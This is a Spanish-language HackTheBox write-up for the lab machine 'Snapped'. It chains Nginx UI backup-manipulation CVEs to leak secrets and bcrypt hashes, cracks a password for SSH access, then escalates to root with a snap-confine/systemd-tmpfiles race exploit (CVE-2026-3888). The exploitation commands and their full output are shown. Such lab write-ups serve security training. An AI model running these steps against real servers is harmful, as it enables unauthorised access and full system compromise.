


+++
title = "HackTheBox - Snapped"
draft = false
description = "Resolución de la máquina Snapped"
summary = "OS: Linux | Dificultad: Hard | Conceptos: Enum. de subdominios, Nginx UI Backup Manipulation, Extracción de credenciales, Bcrypt Cracking, TOCTOU Race Condition, Snapd LPE"
tags = ["HTB", "Linux", "Hard", "Subdominio", "CVE", "Snap", "TOCTOU", "Nginx", "Password Reuse"]
categories = ["Writeups"]
showToc = true
date = "2026-05-29T00:00:00"
showRelated = true
+++

* Dificultad: `hard`
* Tiempo aprox. `4h`
* **Datos Iniciales**: `10.129.5.202`

### Enumeración inicial

Tras un análisis de puertos, encontramos la siguiente información.
```bash {hl_lines=[6,10]}
$ sudo nmap -sT -Pn -p- 10.129.5.202 # Indica puertos 22,80
$ sudo nmap -sT -Pn -p22,80 -sVC 10.129.5.202 # Indica "Did not follow redirect to http://snapped.htb/". Lo añadimos a /etc/hosts

$ sudo nmap -sT -Pn -p22,80 -sVC snapped.htb
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4b:c1:eb:48:87:4a:08:54:89:70:93:b7:c7:a9:ea:79 (ECDSA)
|_  256 46:da:a5:65:91:c9:08:99:b2:96:1d:46:0b:fc:df:63 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Snapped \xE2\x80\x94 Infrastructure. Orchestration. Control.
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.55 seconds
# En UDP nada relevante: dhcpc (68) y zeroconf (5353) open|filtered.
```

- `22/tcp (OpenSSH 9.6p1)`: Algunas vulnerabilidades pero no relevantes, lo consideramos no vulnerable.
- `80/tcp (nginx 1.24.0)`: Versión descatalogada con algunas vulnerabilidades, pero no relevantes.

Como nmap nos ha indicado que nginx sirve páginas distintas en función del (sub)dominio, de ahí el "`Did not follow redirect to http://snapped.htb/`", probamos a analizar subdominios.

```bash
$ gobuster vhost --url http://snapped.htb -w /usr/share/wordlists/seclists/Discovery/DNS/n0kovo_subdomains.txt -ad

===============================================================
Gobuster v3.8.2
Starting gobuster in VHOST enumeration mode
===============================================================
admin.snapped.htb Status: 200 [Size: 1407]
```

Y encontramos el subdominio `admin.snappedd.htb`.

## Dominio principal
Antes de ir a por el subdominio, entramos a la página principal para ver qué hay.


Parece una página que ofrece servicios de infrastructura de red. Pese a que se habla mucho de lo que hace la empresa, no hay ni un solo botón que haga algo, lo que ya apuntaría a que deberíamos buscar algo más, como el subdominio encontrado antes.

## Subdominio admin
Nada más entrar, vemos que se trata de [Nginx UI](https://nginxui.com/), una interfaz para gestionar servidores web Nginx, de código abierto.



Si miramos el código fuente, vemos que no hay gran cosa porque el contenido de la página se manda por partes, solo aparece el fondo en html, pero nada más. Para ver todo lo demás, analizamos las solicitudes con Burpsuite.

Recargamos la página, y en una de las solicitudes (a `/assets/index-DoHxQupa.js`), vemos que aparece lo siguiente:



- Puede verse un match con el keyword "version" del elemento `./version-BWPlJ0ga.js`

Si vamos a la página y miramos el código fuente:
```js
// http://admin.snapped.htb/assets/version-BWPlJ0ga.js
const t="2.3.2";const o={version:t,build_id:1,total_build:512};export{o as a,t as v};
```

Vemos que se está usando la versión 2.3.2, y si buscamos vulnerabilidades, vemos que hay varias:
- [CVE-2026-33032](https://nvd.nist.gov/vuln/detail/cve-2026-33032): Omisión de Autenticación MCP (MCPwn)
  - El endpoint `/mcp-message` aplica una lista blanca que por defecto está vacía, y Nginx UI interpreta esto como un "permitir todo". Esto significa que pueden crearse y eliminar archivos de config., reiniciar Nginx, forzar recargas de configuraciones, etc.
- [CVE-2026-33026](https://github.com/advisories/GHSA-fhh2-gg7w-gwpq)/[CVE-2026-27944](https://github.com/vulhub/vulhub/blob/master/nginx-ui/CVE-2026-27944/README.md): Manipulación en la Restauración de Backups
  - Cuando Nginx UI crea un backup, mete los archivos de config. en un zip y lo cifra, luego calcula los hashes de los archivos y los mete en un documento `hash_info.txt`, que cifra también. Al acabar, entrega la clave de cifrado al usuario.
  - Cuando se intenta restaurar un backup, como Nginx UI no se ha generado ni guardado ninguna firma propia para garantizar que el backup es "bueno", le sirve con que los hashes de `hash_info.txt` coincidan con los de los archivos. Esto permite subir un backup manipulado habiendo modificado las configuraciones y recalculado los hashes, que Nginx UI tomará como bueno.

Para poder ir descartando, descargo [un script](https://github.com/Twinson333/cve-2026-33032-scanner) que comprueba si un servidor es vulnerable al primer CVE:

```bash
$ python3 cve-2026-33032-scanner.py --url http://admin.snapped.htb

╔═══════════════════════════════════════════════════════════════════╗
║       CVE-2026-33032 Scanner with OOB Pingback Support            ║
║         Nginx-UI MCP Endpoint Authentication Bypass               ║
║                                                                   ║
║  Enhanced with Burp Collaborator integration for undeniable PoC   ║
║  Author: Cyber Tamarin | For Bug Bounty & Responsible Disclosure  ║
╚═══════════════════════════════════════════════════════════════════╝


======================================================================
[*] Scanning: http://admin.snapped.htb
======================================================================
[+] /mcp endpoint properly protected
```

Así que este primero queda descartado, vamos a por el segundo.

### CVE-2026-33026 & CVE-2026-27944
En un README del reporte del CVE-2026-27944 en VulnHub encontramos otro script que, además de comprobar si el servidor es vulnerable, permite explotar la vulnerabilidad si está presente.

```bash
$ python3 poc.py -u http://admin.snapped.htb
[*] Target: http://admin.snapped.htb
[*] Output: /tmp/nginx-ui-backup-m0qhs7cr

[*] Requesting backup from http://admin.snapped.htb/api/backup
[+] Downloaded backup: 18306 bytes
[+] X-Backup-Security: 8DUG0o9ArgXr8EOldhJmo5iBQutRQfRLtUBCMeUb+DY=:VY3Mul/IDOcL0YMXsrr5ew==
[+] AES Key (256-bit): f03506d28f40ae05ebf043a5761266a3988142eb5141f44bb5404231e51bf836
[+] AES IV  (128-bit): 558dccba5fc80ce70bd18317b2baf97b
[+] Decrypted: hash_info.txt (199 bytes)
[+] Decrypted: nginx-ui.zip (7688 bytes)
[+] Decrypted: nginx.zip (9936 bytes)

[+] === Extracted Secrets from app.ini ===
    JwtSecret:    6c4af436-035a-4942-9ca6-172b36696ce9
    Node Secret:  c64d7ca1-19cb-4ebe-96d4-49037e7df78e
    Crypto Secret: 5c942292647d73f597f47c0be2237bf7347cdb70a0e8e8558e448318862357d6

[+] === Users from database ===
    ID=1  Name=admin  Password=$2a$10$8YdBq4e.WeQn8gv9E0ehh.quy8D/4mXHHY4ALLMAzgFPTrIVltEvm
    ID=2  Name=jonathan  Password=$2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq

[+] === Active Auth Tokens ===
    (no active tokens)

[*] === Exploiting with X-Node-Secret ===
[+] Admin API access successful!
[+] Response from http://admin.snapped.htb/api/users:
{
  "data": [
    {
      "id": 2,
      "created_at": "2026-03-19T09:54:01.989628406-04:00",
      "updated_at": "2026-03-19T09:54:01.989628406-04:00",
      "name": "jonathan",
      "status": true,
      "enabled_2fa": false,
      "language": "en"
    },
    {
      "id": 1,
      "created_at": "2026-03-19T08:22:54.41011219-04:00",
      "updated_at": "2026-03-19T08:39:11.562741743-04:00",
      "name": "admin",
      "status": true,
      "enabled_2fa": false,
      "language": "en"
    }
  ],
  "pagination": {
    "total": 2,
    "per_page": 20,
    "current_page": 1,
    "total_pages": 1
  }
}

============================================================
[+] Exploitation complete!
[+] Decrypted files saved to: /tmp/nginx-ui-backup-m0qhs7cr
[+] Admin API: curl -H 'X-Node-Secret: c64d7ca1-19cb-4ebe-96d4-49037e7df78e' http://admin.snapped.htb/api/users
```

Vemos que efectivamente funciona, el servidor es vulnerable. Además, hemos obtenido dos usuarios con sus respectivos hashes de contraseña, que tras una búsqueda resultan ser `bcrypt`.

### Crackeando Hashes

```bash
$2a$10$8YdBq4e.WeQn8gv9E0ehh.quy8D/4mXHHY4ALLMAzgFPTrIVltEvm # admin
$2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq # jonathan
```

Los metemos a hashcat y...

```bash
$ hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt
...
$2a$10$8M7JZSRLKdtJpx9YRUNTmODN.pKoBsoGCBi5Z8/WVGO2od9oCSyWq:linkinpark
```

Tenemos la contraseña de `jonathan`, `linkinpark`.

Ahora podemos probar a conectarnos por SSH:

```bash
$ ssh jonathan@snapped.htb
jonathan@snapped.htb's password: 

jonathan@snapped:~$ 
```

Y ya tenemos acceso al servidor.

## Privesc
Una vez hemos iniciado sesión como jonathan, echamos un vistazo al servidor para ver dónde nos encontramos.

### Enumeración
#### Versión del sistema
```bash
$ cat /etc/os-release
# ...
VERSION="24.04.4 LTS (Noble Numbat)"
# ...

$ uname -a
Linux snapped 6.17.0-19-generic #19~24.04.2-Ubuntu SMP PREEMPT_DYNAMIC Fri Mar  6 23:08:46 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```

#### Sudo
Miramos privilegios de nuestro usuario.
```bash
$ sudo -l
[sudo] password for jonathan: 
Sorry, user jonathan may not run sudo on snapped.
```

Estamos en Ubuntu 24.04.4 LTS, kernel 6.17.0-19-generic. No podemos ejecutar sudo.

#### Puertos en localhost
Miramos puertos en local, solo están Nginx UI también hosteado en local (`127.0.0.1:9000`) y CUPS (`127.0.0.1:631`):
```bash
$ netstat -tunlp | grep 127.0.0.1
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -

# Si solicitamos con curl a cada una veremos que son Nginx UI y CUPS respectivamente.
```
### Comprobando CUPS
Por si acaso, comprobamos la versión de CUPS. Al mandar una solicitud vemos lo siguiente:
```bash
$ curl -s localhost:631 | grep OpenPrinting | grep CUPS
	<li><a href="https://openprinting.github.io/cups/" target="_blank">OpenPrinting CUPS</a></li>
	<h1>OpenPrinting CUPS 2.4.7</h1>
```
Se está ejecutando CUPS 2.4.7. Si buscamos la versión, vemos que no es estrictamente vulnerable a nada que permita escalar privilegios, pero si `cups-browsed` está activado y su versión es menor a la 2.0.2, es posible iniciar una cadena de vulnerabilidades que nos consiga llegar a root.

Para esto comprobamos si `cups-browsed` está activo y su versión:
```bash
$ cups-browsed --version
cups-browsed version 2.0.0

$ systemctl status cups-browsed
● cups-browsed.service - Make remote CUPS printers available locally
     Loaded: loaded (/usr/lib/systemd/system/cups-browsed.service; enabled; preset: enabled)
     Active: active (running) since Fri 2026-05-29 05:30:17 EDT; 14h ago
     ...
```

Es potencialmente vulnerable, así que probamos con un script que comprueba si realmente lo es:

```bash
$ python3 cosa.py  --targets 127.0.0.1 --callback 127.0.0.1:1337
[2026-05-29 20:00:22] starting callback server on 127.0.0.1:1337
[2026-05-29 20:00:22] callback server running on port 127.0.0.1:1337...
[2026-05-29 20:00:22] starting scan
[2026-05-29 20:00:22] scanning range: 127.0.0.1 - 127.0.0.1
[2026-05-29 20:00:22] scan done, use CTRL + C to callback stop server
# No llega nada pasado un rato
```
Como debería llegar un callback desde el servicio vulnerable, pero no llega nada, podemos deducir que posiblemente esta build específica no sea vulnerable, y si cups-browsed es el primer paso en la cadena de vulnerabilidades, y no es vulnerable, no hay mucho que podamos hacer, así que vamos a otra cosa.

### Snap, CVE-2026-3888

Vemos que estamos en el directorio personal de `jonathan`, en /home, y que parece un directorio bastante normal. Tiene lo que suele haber en un directorio personal en Linux:

```bash
$ ls -al
total 76
-rw-r--r--  1 root     jonathan    0 Mar 20 12:28 .bash_history
-rw-r--r--  1 jonathan jonathan  220 Mar 31  2024 .bash_logout
-rw-r--r--  1 jonathan jonathan 3771 Mar 31  2024 .bashrc
drwx------  9 jonathan jonathan 4096 Mar 20 11:38 .cache
drwx------ 12 jonathan jonathan 4096 Mar 20 11:38 .config
drwxr-xr-x  2 jonathan jonathan 4096 Mar 20 11:38 Desktop
drwxr-xr-x  2 jonathan jonathan 4096 Mar 20 11:38 Documents
drwxr-xr-x  2 jonathan jonathan 4096 Mar 20 11:38 Downloads
drwx------  4 jonathan jonathan 4096 Mar 20 11:38 .local
drwxr-xr-x  2 jonathan jonathan 4096 Mar 20 11:38 Music
drwxr-xr-x  2 jonathan jonathan 4096 Mar 20 11:38 Pictures
-rw-r--r--  1 jonathan jonathan  807 Mar 31  2024 .profile
drwxr-xr-x  2 jonathan jonathan 4096 Mar 20 11:38 Public
drwx------  3 jonathan jonathan 4096 Mar 20 11:38 snap
drwx------  2 jonathan jonathan 4096 Mar 20 11:38 .ssh
drwxr-xr-x  2 jonathan jonathan 4096 Mar 20 11:38 Templates
-rw-r-----  1 root     jonathan   33 May 29 05:29 user.txt
drwxr-xr-x  2 jonathan jonathan 4096 Mar 20 11:38 Videos
```

Si miramos lo que hay en cada directorio de estos, vemos que todos, salvo `snap/` están vacíos (y .ssh, evidentemente.). Además, antes no había buscado vulnerabilidades de la versión del kernel, pero si buscamos esto en Internet:
```
Ubuntu 24.04.4 LTS, kernel 6.17.0-19-generic vulnerabilities
```
El primer resultado es [este](https://github.com/TheCyberGeek/CVE-2026-3888-snap-confine-systemd-tmpfiles-LPE).

- [CVE-2026-3888](https://www.incibe.es/incibe-cert/alerta-temprana/vulnerabilidades/cve-2026-3888): Vulnerabilidad TOCTOU entre `snap-confine` y `systemd-tmpfiles` que permite escalar privilegios.

El exploit requiere:
- Ubuntu 24.04+ with unpatched snapd (< 2.74.2)
- `snap-confine` must be SUID-root (-rwsr-xr-x 1 root root /usr/lib/snapd/snap-confine)
- A snap with layout bind-mounts installed (firefox, snap-store, etc.)
- `systemd-tmpfiles-clean.timer` active
- `busybox` available on the target (/usr/bin/busybox)

Si comprobamos:
```bash
$ snap --version
snap    2.63.1+24.04
snapd   2.63.1+24.04
... # Versión válida

$ ls -al /usr/lib/snapd/snap-confine 
-rwsr-xr-x 1 root root 159016 Aug 20  2024 /usr/lib/snapd/snap-confine
# SUID Bit puesto

$ snap list | grep -iE 'firefox|snap-store'
firefox                    129.0.2-1        4793   latest/stable/…  mozilla**    -
snap-store                 0+git.e3dd562    1173   2/stable/…       canonical**  -
# Ambos ejemplos instalados (bastaría cualquiera de ellos o uno diferente)

$ systemctl is-active systemd-tmpfiles-clean.timer
active
# Temporizador activo

$ which busybox 
/usr/bin/busybox
# Busybox instalado
```

Cumplimos todo lo que se pide, así que es bastante probable que el exploit funcione. En este caso vamos a usar la variante SUID proporcionada por el exploit porque es la indicada para Ubuntu 24.04.

Antes de nada, el exploit indica que el tiempo hasta conseguir el shell como root depende del período del timer de `systemd-tmpfiles-clean`, que puede tardar por defecto **entre 10 y 30 días.** Convendría comprobar que no vamos a tardar un mes en explotar esto.

```bash
$ systemctl cat systemd-tmpfiles-clean.timer

[Unit]
Description=Daily Cleanup of Temporary Directories
Documentation=man:tmpfiles.d(5) man:systemd-tmpfiles(8)
ConditionPathExists=!/etc/initrd-release

[Timer]
OnBootSec=15min
OnUnitActiveSec=1d

# /etc/systemd/system/systemd-tmpfiles-clean.timer.d/override.conf
[Timer]
OnBootSec=1m
OnUnitActiveSec=1m
```

Como vemos, se hace un override de los valores por defecto de 1 día y se sobrescriben por un tiempo de 1 minuto, lo que hace que esto sea viable.

Descargamos `exploit_suid.c` y `librootshell_suid.c`. Luego los compilamos.

```bash
$ gcc -O2 -static -o exploit exploit_suid.c
$ gcc -nostdlib -static -Wl,--entry=_start -o librootshell.so librootshell_suid.c

$ ls
exploit  exploit_caps.c  exploit_suid.c  librootshell_caps.c  librootshell.so  librootshell_suid.c  README.md
```

Ahora lo subimos al servidor, lo ejecutamos y...

```bash
$ chmod +x exploit
$ ./exploit librootshell.so 
================================================================
    CVE-2026-3888 — snap-confine / systemd-tmpfiles SUID LPE
================================================================
[*] Payload: /home/jonathan/librootshell.so (9056 bytes)

[Phase 1] Entering Firefox sandbox...
[+] Inner shell PID: 50631

[Phase 2] Waiting for .snap deletion...
[+] .snap already gone!

[Phase 3] Destroying cached mount namespace...
cannot perform operation: mount --rbind /dev /tmp/snap.rootfs_t6rqKP//dev: No such file or directory
[+] Namespace destroyed.

[Phase 4] Setting up and running the race...
[*]   Working directory: /proc/50631/cwd
[*]   Building .snap and .exchange...
[*]   285 entries copied to exchange directory
[*]   Starting race...
[*]   Monitoring snap-confine (child PID 50650)...

[!]   TRIGGER — swapping directories...
[+]   SWAP DONE — race won!
cannot update snap namespace: cannot create writable mimic over "/usr/lib/x86_64-linux-gnu": permission denied
[-] Could not read poison PID from race_pid.txt
```

No funciona. Al parecer este método no es el correcto, puede ser que tengamos que probar con el otro (Capabilities).

Ahora sí, lo subimos, lo ejecutamos, esperamos varios minutos y...

```bash
$ ./exploit librootshell.so
================================================================
CVE-2026-3888 — snap-confine / systemd-tmpfiles Capabilities LPE 
================================================================
[*] Payload: /home/jonathan/librootshell.so (14320 bytes)

[Phase 1] Entering snap-store sandbox...
[+] Inner shell PID: 50911

[Phase 2] Waiting for .snap deletion...
[*] Polling (up to 10 days on Ubuntu 25.10).
[*] Hint: use -s to skip.
[+] .snap deleted.

[Phase 3] Destroying cached mount namespace...
cannot perform operation: mount --rbind /dev /tmp/snap.rootfs_mezVjo//dev: No such file or directory
[+] Namespace destroyed (.mnt gone).

[Phase 4] Setting up and running the race...
[*]   Working directory: /proc/50911/cwd
[*]   Building .snap and .exchange...
[*]   17 entries copied to exchange directory
[*]   Starting race...
[*]   Monitoring snap-confine (child PID 51186)...

[!]   TRIGGER — swapping directories...
[+]   SWAP DONE — race won!
[+]   Race won. /var/lib/snapd is now user-owned.

[Phase 5] Setting up payload and user-fstab...
[*]   Copying /etc to .snap/etc...
[*]   Writing ld.so.preload...
[*]   Writing user-fstab...
[*]   Copying librootshell.so to /tmp/...
[*]   Copying busybox...
[*]   Writing escape script...
[*]   Swapping var/lib back (restoring original snapd metadata)...
[+]   Payload ready.

[Phase 6] Triggering root via SUID binary in /tmp/.snap...
[*]   Executing: snap-confine → /tmp/.snap/var/lib/snapd/hostfs/snap/core22/current/usr/bin/su
[*]   Exit status: 0

[Phase 7] Verifying...
[+] SUID root bash: /var/snap/snap-store/common/bash (mode 4755)
[*] Cleaning up background processes...

================================================================
  ROOT SHELL: /var/snap/snap-store/common/bash -p
================================================================

bash-5.1# whoami
root
```

Tenemos root.
